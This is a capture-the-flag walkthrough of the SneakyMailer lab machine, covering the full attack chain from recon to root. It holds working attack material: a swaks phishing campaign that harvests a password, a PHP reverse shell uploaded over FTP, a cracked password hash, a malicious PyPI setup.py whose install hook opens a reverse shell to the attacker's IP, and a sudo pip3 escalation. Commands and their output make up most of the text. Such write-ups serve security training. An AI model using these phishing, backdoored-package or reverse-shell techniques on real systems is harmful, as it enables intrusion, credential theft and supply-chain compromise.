

# SneakyMailer

## Machine Info


## Recon

### port

- ftp: 21
- mail:
  - smtp: 25
  - imap: 143, 993
- http: 80, 8080

```console
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)
|   256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)
|_  256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp   open  http     nginx 1.14.2
|_http-title: Did not follow redirect to http://sneakycorp.htb
|_http-server-header: nginx/1.14.2
143/tcp  open  imap     Courier Imapd (released 2018)
|_imap-capabilities: ACL2=UNION IMAP4rev1 IDLE THREAD=REFERENCES THREAD=ORDEREDSUBJECT CHILDREN ACL completed ENABLE SORT NAMESPACE UTF8=ACCEPTA0001 STARTTLS CAPABILITY UIDPLUS OK QUOTA
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap Courier Imapd (released 2018)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_imap-capabilities: ACL2=UNION IMAP4rev1 IDLE AUTH=PLAIN THREAD=REFERENCES THREAD=ORDEREDSUBJECT CHILDREN ACL completed ENABLE SORT NAMESPACE UTF8=ACCEPTA0001 UIDPLUS CAPABILITY OK QUOTA
8080/tcp open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Welcome to nginx!
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### path

```console
└─╼$ gobuster dir -u http://sneakycorp.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 64 -k --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sneakycorp.htb
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 13543]
/img                  (Status: 301) [Size: 185] [--> http://sneakycorp.htb/img/]
/css                  (Status: 301) [Size: 185] [--> http://sneakycorp.htb/css/]
/team.php             (Status: 200) [Size: 26518]
/js                   (Status: 301) [Size: 185] [--> http://sneakycorp.htb/js/]
/vendor               (Status: 301) [Size: 185] [--> http://sneakycorp.htb/vendor/]
/pypi                 (Status: 301) [Size: 185] [--> http://sneakycorp.htb/pypi/]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

### subdomain

- `dev.sneakycorp.htb`

```console
└─╼$ gobuster vhost -u http://sneakycorp.htb/ -t 35 --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://sneakycorp.htb/
[+] Method:          GET
[+] Threads:         35
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.sneakycorp.htb Status: 200 [Size: 13742]
Progress: 114441 / 114442 (100.00%)
===============================================================
Finished
===============================================================
```

## Foothold

### Phishing: Credential Leakage


- Based on the **notice** of project upadate, it is known that staff in this project would **check their emails** to reveice instructions => **phishing** to get their username & password

- send emails to these email addresses of project members to let them click a customed link to get their credentials (phishing => **swaks**)

**Procedure**

1. collect email addresses

```console
└─╼$ curl http://sneakycorp.htb/team.php | grep -E -o '[a-zA-Z0-9]*@sneakymailer.htb' | tee mails
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
tigernixon@sneakymailer.htb
garrettwinters@sneakymailer.htb
ashtoncox@sneakymailer.htb
cedrickelly@sneakymailer.htb
airisatou@sneakymailer.htb
briellewilliamson@sneakymailer.htb
herrodchandler@sneakymailer.htb
rhonadavidson@sneakymailer.htb
colleenhurst@sneakymailer.htb
sonyafrost@sneakymailer.htb
jenagaines@sneakymailer.htb
quinnflynn@sneakymailer.htb
```

2. use swaks to send these mails and set the content of local host: `swaks --from admin@sneakymailer.htb --to $(cat mails | tr '\n' ',' | sed 's/,$//') --body "Please check http://10.10.14.14:1234/"`

```console
└─╼$ swaks --from admin@sneakymailer.htb --to $(cat mail) --body "Please check http://10.10.14.14:1234/"
...
 -> Date: Fri, 26 Jan 2024 22:32:36 +0800
 -> To: tigernixon@sneakymailer.htb,garrettwinters@sneakymailer.htb,ashtoncox@sneakymailer.htb,cedrickelly@sneakymailer.htb,airisatou@sneakymailer.htb,briellewilliamson@sneakymailer.htb,herrodchandler@sneakymailer.htb,rhonadavidson@sneakymailer.htb,colleenhurst@sneakymailer.htb,sonyafrost@sneakymailer.htb,jenagaines@sneakymailer.htb,quinnflynn@sneakymailer.htb,chardemarshall@sneakymailer.htb,haleykennedy@sneakymailer.htb,tatyanafitzpatrick@sneakymailer.htb,michaelsilva@sneakymailer.htb,paulbyrd@sneakymailer.htb,glorialittle@sneakymailer.htb,bradleygreer@sneakymailer.htb,dairios@sneakymailer.htb,jenettecaldwell@sneakymailer.htb,yuriberry@sneakymailer.htb,caesarvance@sneakymailer.htb,doriswilder@sneakymailer.htb,angelicaramos@sneakymailer.htb,gavinjoyce@sneakymailer.htb,jenniferchang@sneakymailer.htb,brendenwagner@sneakymailer.htb,fionagreen@sneakymailer.htb,shouitou@sneakymailer.htb,michellehouse@sneakymailer.htb,sukiburks@sneakymailer.htb,prescottbartlett@sneakymailer.htb,gavincortez@sneakymailer.htb,martenamccray@sneakymailer.htb,unitybutler@sneakymailer.htb,howardhatfield@sneakymailer.htb,hopefuentes@sneakymailer.htb,vivianharrell@sneakymailer.htb,timothymooney@sneakymailer.htb,jacksonbradshaw@sneakymailer.htb,olivialiang@sneakymailer.htb,brunonash@sneakymailer.htb,sakurayamamoto@sneakymailer.htb,thorwalton@sneakymailer.htb,finncamacho@sneakymailer.htb,sergebaldwin@sneakymailer.htb,zenaidafrank@sneakymailer.htb,zoritaserrano@sneakymailer.htb,jenniferacosta@sneakymailer.htb,carastevens@sneakymailer.htb,hermionebutler@sneakymailer.htb,laelgreer@sneakymailer.htb,jonasalexander@sneakymailer.htb,shaddecker@sneakymailer.htb,sulcud@sneakymailer.htb,donnasnider@sneakymailer.htb
 -> From: admin@sneakymailer.htb
 -> Subject: test Fri, 26 Jan 2024 22:32:36 +0800
 -> Message-Id: <20240126223236.031949@ROG-Zephyrus-M16.>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 ->
 -> Please check http://10.10.14.14:1234/
 ->
 ->
 -> .
<-  250 2.0.0 Ok: queued as 549AA24665
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.197] 55786
POST / HTTP/1.1
Host: 10.10.14.14:1234
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```

3. urldecode to get credential: `paulbyrd:^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht`

```console
└─╼$ python -c "import urllib.parse; print(urllib.parse.unquote('firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt'))"
firstName=Paul&lastName=Byrd&email=paulbyrd@sneakymailer.htb&password=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht&rpassword=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

### Mail Account Login




**INFO**:

1. credential: `developer:m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C` -> ftp,ssh[?]
2. the machine has a local PyPI service

### FTP & Upload Webshell

- login as developer and recon
  - `/dev`
  - `team.php` -> dev.sneakycorp.htb http service

```console
└─╼$ ftp developer@10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> binary
200 Switching to Binary mode.
ftp> dir
229 Entering Extended Passive Mode (|||55865|)
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Jun 30  2020 dev
226 Directory send OK.
ftp> cd dev
250 Directory successfully changed.
ftp> dir
229 Entering Extended Passive Mode (|||49368|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26  2020 css
drwxr-xr-x    2 0        0            4096 May 26  2020 img
-rwxr-xr-x    1 0        0           13742 Jun 23  2020 index.php
drwxr-xr-x    3 0        0            4096 May 26  2020 js
drwxr-xr-x    2 0        0            4096 May 26  2020 pypi
drwxr-xr-x    4 0        0            4096 May 26  2020 scss
-rwxr-xr-x    1 0        0           26523 May 26  2020 team.php
drwxr-xr-x    8 0        0            4096 May 26  2020 vendor
226 Directory send OK.
```

- download dev and compare the source code with http service source code -> same -> this upload dir is the http service dir

```console
└─╼$ wget -m --ftp-user=developer --ftp-password='m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C' ftp://10.10.10.197/dev/

└─╼$ curl http://dev.sneakycorp.htb/team.php > team1.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 26523    0 26523    0     0  85733      0 --:--:-- --:--:-- --:--:-- 85834

└─╼$ diff team.php team1.php
```

- **EXP**: Upload a rshell php file -> curl to trigger
  - be quick because the uploaded dir is **periodically cleaned**

```console
ftp> put ~/pwk/tools/rshell.php a.php
local: /home/qwe/pwk/tools/rshell.php remote: a.php
229 Entering Extended Passive Mode (|||60810|)
150 Ok to send data.
100% |****************************************************************************************************************************************************************************************|  3905       65.33 MiB/s    00:00 ETA
226 Transfer complete.
3905 bytes sent in 00:00 (50.57 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||27371|)
150 Here comes the directory listing.
--wxrw-rw-    1 1001     1001         3905 Jan 26 10:02 a.php
drwxr-xr-x    2 0        0            4096 May 26  2020 css
drwxr-xr-x    2 0        0            4096 May 26  2020 img
-rwxr-xr-x    1 0        0           13742 Jun 23  2020 index.php
drwxr-xr-x    3 0        0            4096 May 26  2020 js
drwxr-xr-x    2 0        0            4096 May 26  2020 pypi
drwxr-xr-x    4 0        0            4096 May 26  2020 scss
-rwxr-xr-x    1 0        0           26523 May 26  2020 team.php
drwxr-xr-x    8 0        0            4096 May 26  2020 vendor
226 Directory send OK.
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.197] 58872
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 10:02:58 up  1:45,  0 users,  load average: 0.03, 0.06, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:11:9f brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.197/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:119f/64 scope global dynamic mngtmpaddr
       valid_lft 86395sec preferred_lft 14395sec
    inet6 fe80::250:56ff:feb9:119f/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### www-data -> low

- enum PyPI Service


```console
www-data@sneakymailer:~/pypi.sneakycorp.htb$ ps aux | grep -i pypi
pypi       675  0.0  0.6  36800 25764 ?        Ss   08:17   0:05 /var/www/pypi.sneakycorp.htb/venv/bin/python3 /var/www/pypi.sneakycorp.htb/venv/bin/pypi-server -i 127.0.0.1 -p 5000 -a update,download,list -P /var/www/pypi.sneakycorp.htb/.htpasswd --disable-fallback -o /var/www/pypi.sneakycorp.htb/packages
www-data  5614  0.0  0.0   6408   884 pts/0    S+   10:10   0:00 grep -i pypi

www-data@sneakymailer:~/pypi.sneakycorp.htb$ netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      752/nginx: worker p
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      752/nginx: worker p
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      752/nginx: worker p
tcp6       0      0 :::8080                 :::*                    LISTEN      752/nginx: worker p
tcp6       0      0 :::21                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::25                   :::*                    LISTEN      -
tcp6       0      0 :::993                  :::*                    LISTEN      -
tcp6       0      0 :::143                  :::*                    LISTEN      -

www-data@sneakymailer:~/pypi.sneakycorp.htb$ cat /var/www/pypi.sneakycorp.htb/.htpasswd
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

- get password **hash** of pypi service: `$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/` -> hashcat to crack it -> **cred**: `pypi:soufianeelhaoui`

```console
└─╼$ hashcat -m 1600 -a 0 hash /usr/share/wordlists/rockyou.txt
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

└─╼$ hashcat -m 1600 -a 0 hash /usr/share/wordlists/rockyou.txt --show
$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui
```

- check **nginx's** **enabled sites** to see how to visit pipy service
  - `http://pypi.sneakycorp.htb:8080`

```console
www-data@sneakymailer:/etc/nginx/sites-enabled$ cat pypi.sneakycorp.htb
server {
        listen 0.0.0.0:8080 default_server;
        listen [::]:8080 default_server;
        server_name _;
}


server {
        listen 0.0.0.0:8080;
        listen [::]:8080;

        server_name pypi.sneakycorp.htb;

        location / {
                proxy_pass http://127.0.0.1:5000;
                proxy_set_header Host $host;
                proxy_set_header X-Real-IP $remote_addr;
        }
}

www-data@sneakymailer:/etc/nginx/sites-enabled$ cat sneakycorp.htb
server {
        listen 0.0.0.0:80 default_server;
        listen [::]:80 default_server;
        return 301 http://sneakycorp.htb;
        server_name _;
}


server {
        listen 0.0.0.0:80;
        listen [::]:80;

        server_name sneakycorp.htb;

        root /var/www/sneakycorp.htb;
        index index.php;
        location / {
                try_files $uri $uri/ =404;
        }
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}

server {
        listen 0.0.0.0:80;
        listen [::]:80;

        server_name dev.sneakycorp.htb;

        root /var/www/dev.sneakycorp.htb/dev;
        index index.php;
        location / {
                try_files $uri $uri/ =404;
        }
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}
```


- use this [repo](https://github.com/zhsh9/Malicious-PyPI-Template)'s code to create pypi package and upload to machine's pypi service

```console
└─╼$ cat setup.py
from setuptools import setup
from setuptools.command.install import install

class ImQWE(install):
    def run(self):
        # Insert code here
        # reverse shell to local ip
        import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

setup(
    name = "imqwe",
    version = "0.0.1",
    keywords = ["pip", "stusystem"],
    description = " im qwe.",
    long_description = "I'm qwe and this is my code.",
    license = "MIT Licence",
    url = "http://sneakycorp.htb",
    author = "qwe",
    author_email = "qwe",
    include_package_data = True,
    platforms = "any",
    install_requires = [],
    zip_safe = False,
    cmdclass = { 'install': ImQWE }
)

└─╼$ python setup.py sdist
running sdist
running egg_info
creating imqwe.egg-info
writing imqwe.egg-info/PKG-INFO
writing dependency_links to imqwe.egg-info/dependency_links.txt
writing top-level names to imqwe.egg-info/top_level.txt
writing manifest file 'imqwe.egg-info/SOURCES.txt'
reading manifest file 'imqwe.egg-info/SOURCES.txt'
writing manifest file 'imqwe.egg-info/SOURCES.txt'
running check
creating imqwe-0.0.1
creating imqwe-0.0.1/imqwe.egg-info
creating imqwe-0.0.1/rshell
copying files to imqwe-0.0.1...
copying README.md -> imqwe-0.0.1
copying setup.cfg -> imqwe-0.0.1
copying setup.py -> imqwe-0.0.1
copying imqwe.egg-info/PKG-INFO -> imqwe-0.0.1/imqwe.egg-info
copying imqwe.egg-info/SOURCES.txt -> imqwe-0.0.1/imqwe.egg-info
copying imqwe.egg-info/dependency_links.txt -> imqwe-0.0.1/imqwe.egg-info
copying imqwe.egg-info/not-zip-safe -> imqwe-0.0.1/imqwe.egg-info
copying imqwe.egg-info/top_level.txt -> imqwe-0.0.1/imqwe.egg-info
copying rshell/__init__.py -> imqwe-0.0.1/rshell
Writing imqwe-0.0.1/setup.cfg
creating dist
Creating tar archive
removing 'imqwe-0.0.1' (and everything under it)

└─╼$ twine upload --repository-url http://pypi.sneakycorp.htb:8080/ -u pypi -p soufianeelhaoui dist/*
Uploading distributions to http://pypi.sneakycorp.htb:8080/
Uploading imqwe-0.0.1.tar.gz
100% ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 4.0/4.0 kB • 00:00 • ?
```

- visit `http://pypi.sneakycorp.htb:8080` -> click uploade package after listening port by nc

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.197] 39726
$ id
uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)
$ uname -a
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
```

### low -> root

- enum sudo

```console
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```

- [pip | GTFOBins](https://gtfobins.github.io/gtfobins/pip/#sudo)

```console
low@sneakymailer:/dev/shm$ TF=$(mktemp -d)
low@sneakymailer:/dev/shm$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:/dev/shm$ sudo /usr/bin/pip3 install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.ucKGffnipU
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Exploit Chain

port recon -> http, ftp, smtp, imap, ssh -> phishing -> mail cred -> login -> ftp cred -> uploadable ftp -> webshell uploaded -> www-data shell -> PyPI service enum -> pypi cred -> create rshell pypi package -> upload package -> low shell -> sudo enum -> root shell
